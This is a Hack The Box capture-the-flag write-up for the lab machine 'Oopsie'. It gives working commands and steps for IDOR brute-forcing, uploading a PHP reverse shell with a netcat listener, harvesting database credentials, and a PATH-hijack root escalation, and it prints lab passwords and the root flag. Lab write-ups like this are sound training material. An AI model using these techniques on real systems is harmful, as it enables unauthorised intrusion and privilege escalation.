








# Hack The Box | Oopsie
###### Writeup by. Jessi

## Enumeration
### Nmap Scan
Begin with an nmap scan against the target.  
**Target:** 10.10.10.28  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Oopsie]
└─$ nmap -sC -sV -sT 10.10.10.28
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-02 19:49 EST
Nmap scan report for 10.10.10.28
Host is up (0.025s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.71 seconds
~~~
### Open Ports/Services
22/tcp - SSH  
80/tcp - HTTP Apache 2  
### HTTP
Browsing to http://10.10.10/28/ presented me with this web page.  
  
Didn't notice anything interesting right at the start. So I decided to launch **BurpSuite** and use the proxy to revisit the page. While the site was being processed in the proxy, it was automatically spidered under the target tab.  
The /cdn-cgi/login directory looked interesting, so I browsed to it. Reached a login screen.   
Originally I tried some default login attempts such as administrator / password and admin / password, with a few different generic passwords. I then realized the possibility of password re-use. The credentials admin / MEGACORP_4dm1n!! were successful to login.  
### /cdn-cgi/login/admin
While browsing and logging into the site, I was also keeping an eye on what BurpSuite was processing. Looks like the site has different tiers of administration because the **uploads** directory was restricted to super admin users only. I went back to the main **account** page and refreshed, from here I noticed that my account id was a value of 1.   
At this point I was thinking we could brute-force the id values and display the user id values for another user, including super admin account. Using the **intruder** module in BurpSuite, I should be able to accomplish this. I generated a quick list of 1-100 with a bash loop and pasted the results in payload options.  
  
Then I made sure to enable **follow redirections** and **process cookies in redirections**; started the attack. I was able to find the super admin account.  
  
I then tried to access the uploads directory again but this time I subsituted my id value with the value of the super admin.  
  
Success!  
  
## Foothold
### Webshell
After reaching the uploads page, I wanted to test for user input validation by uploading a webshell and seeing if we can execute it. I used the webshell available in **Kali** at /usr/share/webshells/php/php-reverse-shell.php. I just edited the IP value to match my machine. Then I named it rev.php and uploaded the file while subsituing my id value again.  
  
Now I just had to search the directories to see where the file ended up at.  
### Dirsearch
Using the [**Dirsearch**](https://github.com/maurosoria/dirsearch) tool, I am able to search web directories for the file location.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Oopsie]
└─$ python3 ~/dirsearch/dirsearch.py -u http://10.10.10.28/ -e php

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 8853

Error Log: /home/jessi/dirsearch/logs/errors-21-01-03_10-15-47.log

Target: http://10.10.10.28/

Output File: /home/jessi/dirsearch/reports/10.10.10.28/_21-01-03_10-15-47.txt

[10:15:47] Starting: 
[10:15:50] 403 -  276B  - /.ht_wsr.txt                                
[10:15:50] 403 -  276B  - /.htaccess.bak1
[10:15:50] 403 -  276B  - /.htaccess.orig
[10:15:50] 403 -  276B  - /.htaccess.sample
[10:15:50] 403 -  276B  - /.htaccess.save
[10:15:50] 403 -  276B  - /.htaccessBAK
[10:15:50] 403 -  276B  - /.htaccessOLD
[10:15:50] 403 -  276B  - /.htaccessOLD2
[10:15:50] 403 -  276B  - /.htaccess_extra
[10:15:50] 403 -  276B  - /.htaccess_orig
[10:15:50] 403 -  276B  - /.htaccess_sc
[10:15:50] 403 -  276B  - /.htm
[10:15:50] 403 -  276B  - /.html
[10:15:50] 403 -  276B  - /.htpasswd_test
[10:15:50] 403 -  276B  - /.htpasswds
[10:15:50] 403 -  276B  - /.httr-oauth
[10:15:51] 403 -  276B  - /.php                          
[10:16:00] 301 -  308B  - /css  ->  http://10.10.10.28/css/            
[10:16:02] 301 -  310B  - /fonts  ->  http://10.10.10.28/fonts/  
[10:16:02] 301 -  311B  - /images  ->  http://10.10.10.28/images/  
[10:16:02] 403 -  276B  - /images/  
[10:16:02] 200 -   11KB - /index.php         
[10:16:02] 200 -   11KB - /index.php/login/
[10:16:03] 403 -  276B  - /js/                    
[10:16:03] 301 -  307B  - /js  ->  http://10.10.10.28/js/
[10:16:06] 403 -  276B  - /server-status                     
[10:16:06] 403 -  276B  - /server-status/
[10:16:06] 301 -  311B  - /themes  ->  http://10.10.10.28/themes/     
[10:16:06] 403 -  276B  - /themes/
[10:16:07] 403 -  276B  - /uploads/                               
[10:16:07] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/
                                                                          
Task Completed
~~~
The search indentified the /uploads directory, I should be able to execute the reverse shell now.  
### Reverse Shell
I used a **netcat** listener and a curl request to execute the reverse shell.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Oopsie]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.28] 47900
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:29:47 up 1 day,  9:01,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
~~~
And from here I upgraded my shell after doing some research online.  
~~~Bash
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
~~~
I wanted to have a better look at /cdn-cgi/login.  
~~~Bash
www-data@oopsie:/$ ls /var/www/html/cdn-cgi/login
ls /var/www/html/cdn-cgi/login
admin.php  db.php  index.php  script.js
www-data@oopsie:/$ 
~~~
Notice the **db.php** file. I was thinking this was most likely a database at this point, so I took a look.  
~~~Bash
www-data@oopsie:/$ cat /var/www/html/cdn-cgi/login/db.php
cat /var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
~~~
Indeed; now we have credentials for a user named robert.  
#### Found Credentials
Username: robert  
Password: M3g4C0rpUs3r!  
## PrivEsc
### Lateral Movement
Since we aquired some creds for robert, I decided to su and continue browsing as robert.  
~~~Bash
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$
~~~
Running the **id** command reveals that rober is a member of the **bugtracker** group. From here I can enumerate the filesystem to see if the group has any kind of special access.  
~~~Bash
robert@oopsie:/$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
robert@oopsie:/$ find / -type f -group bugtracker 2>/dev/null
find / -type f -group bugtracker 2>/dev/null
/usr/bin/bugtracker
robert@oopsie:/$ 
~~~
Found a bugtracker binary in /usr/bin, upon executing it this is what it does.  
~~~Bash

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
~~~
It outputs a report based on the id value provided. Using the **strings** command, I can see how it does this. Looks like it calls on the **cat** binary using the relative path versus the absolute path. I can create a malicious cat binary and modify the path to include the current working directory.  
### Malicious Cat
First I had to set the current working directory in **PATH** and then create the malicious binary as well as make it executable.  
~~~Bash
robert@oopsie:/$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
robert@oopsie:/$ cd /tmp/
cd /tmp/
robert@oopsie:/tmp$ echo '/bin/sh' > cat
echo '/bin/sh' > cat
robert@oopsie:/tmp$ chmod +x cat
chmod +x cat
~~~
And now we execute the bugtracker binary once more.  
~~~Bash
robert@oopsie:/tmp$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

# id
id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
# whoami
whoami
root
~~~
We're now root. From here I can capture the root.txt flag and proceed to look around the system for any more credentials.  
#### root.txt
Located in /root.  
**af13b0bee69f8a877c3faf667f7beacf**
